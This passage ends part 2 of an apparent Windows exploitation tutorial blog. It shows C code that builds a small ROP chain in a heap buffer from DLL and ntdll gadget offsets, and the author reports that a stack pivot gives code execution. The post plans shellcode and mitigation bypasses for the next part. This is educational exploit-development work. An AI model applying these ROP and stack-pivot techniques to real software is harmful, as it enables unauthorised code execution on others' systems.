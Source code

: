 ```c
// allocate to the general buffer
LPVOID globalAlloc = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x1000);
if (globalAlloc != NULL)
{
    memset(globalAlloc, 0x42, 0x1000);

    // build rop chain in the general buffer
    DWORD index = 0;
    PDWORD64 rop = (PDWORD64)(globalAlloc);

    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = dllBase + 0x1007; index += 1;                                  // ret ; (rop nop)
    rop[index] = ntdllBase + 0xa3060; index += 1;                               // int3 ; ret ; (debug)

    GlobalAllocate(globalAlloc, 0x1000);
}
```

Instead of allocating and writing `0x1000` `B` characters I have allocated and written a very small ROP chain to test that everything works as intended. Let's test this!

<img width="954" alt="Screenshot 2025-01-24 at 08 20 10" src="https://github.com/user-attachments/assets/93d02e13-424e-4166-98f1-1bfa211dd845" style="border: 1px solid black;" />

Everything looks to be working as intended. We break on the brute forced stack pivot, we step through the pivot and note that the stack is now located at our allocated general buffer, when we continue execution we hit the `int3` ROP gadget. We now have code execution!

Hopefully this helps illustrate what has happened so far:

<img width="1061" alt="Screenshot 2025-01-24 at 08 35 17" src="https://github.com/user-attachments/assets/5c6b5e40-09dc-4d4c-a59e-a739eeca32df" style="border: 1px solid black;" />

## What Next?

In the next part things will start to get a bit more interesting. If all goes to plan, I will write about how I will execute shellcode in the general buffer (after making it executable), repair the registers and the stack (so the app doesn't crash), and start switching on mitigations! This is the main reason I am writing all of this. It is good to solidify my understanding of the exploitation techniques so far, but I need to understand the mitigations in Windows and how I might be able to work around them.

[Home](https://plackyhacker.github.io) : [Part 1](https://plackyhacker.github.io/binary/all-the-leaks) : Part 2
